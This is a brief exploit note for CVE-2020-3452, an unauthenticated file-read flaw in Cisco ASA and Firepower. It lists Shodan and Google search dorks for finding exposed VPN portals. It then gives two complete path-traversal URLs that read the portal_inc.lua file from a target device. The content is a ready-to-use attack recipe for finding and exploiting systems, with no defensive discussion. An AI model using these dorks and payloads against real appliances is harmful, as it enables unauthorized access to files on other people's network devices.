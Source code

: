 # CVE-2020-3452
## Unauthenticated file read in Cisco ASA & Cisco Firepower.

### Tools
```
shodandork : title:"SSL VPN service"
Google : inurl:+CSCOE+/logon.html

```


- Read "/+CSCOE+/portal_inc.lua" file

https://TARGET/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
https://TARGET/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua



